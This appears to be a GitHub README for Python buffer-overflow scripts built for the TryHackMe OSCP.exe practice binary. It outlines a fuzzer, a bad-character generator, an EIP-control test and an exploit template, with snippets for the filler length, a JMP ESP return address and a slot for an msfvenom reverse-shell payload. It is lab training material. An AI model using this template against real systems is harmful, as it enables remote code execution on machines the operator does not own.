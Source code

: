 # BufferOverflow
Buffer Overflow Python Scripts

Don't forget to change the IP address of the oscp.exe server

```python
s.connect(("192.168.100.2", 1337)) 
```

## Bad Character Generator for Python3

Just a badcharacter generator to copy and paste into your buffer overflow python script

## Fuzzer

Python3 Fuzzer to enable a buffer overflow

## BoF Template for OSCP.exe from TryHackMe

Simple BoF templatae for oscp.exe.

Don't forget to update the payload_shell with your own msfvenom generated reverse shell payload

Update the header for each overflow example... ie. OVERFLOW1 ,OVERFLOW2 , etc

```python
header = "OVERFLOW1 "
```

Adjust the filler buffer to enable the overflow, adjust the eip address (JMP ESP)

Change the payload reference for the extend to caclulate the correct end of the buffer after your payload (this is not necessary, however it keeps the original BoF intact)

```python
filler = "A" * 1978  # Filler 1978 Bytes + 10 Bytes Header
eip = "\xaf\x11\x50\x62"    #0x625011af  Return Address JMP ESP
extend = "\x90" * (400 - (len(payload_calc) + (len(nop_sled)))
```

## Eip Test

Verification of Control of EIP register

Adjust the filler to enable the overflow and the correct header for the specific overflow program

```python
header = "OVERFLOW1 "
filler = "A" * 1978
```

